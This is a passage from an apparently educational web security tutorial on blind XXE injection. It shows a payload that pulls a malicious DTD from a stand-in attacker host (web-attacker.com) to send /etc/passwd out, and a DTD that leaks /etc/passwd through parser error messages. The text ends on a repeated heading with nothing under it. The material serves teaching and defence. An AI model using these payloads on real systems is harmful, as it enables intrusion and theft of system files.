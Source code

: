 Finally, the attacker must submit the following XXE payload to the vulnerable application:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

{% hint style="info" %}
**Note**

This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd`file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.
{% endhint %}

### Exploiting blind XXE to retrieve data via error messages <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
* Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
* Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

### Exploiting blind XXE to retrieve data via error messages <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>
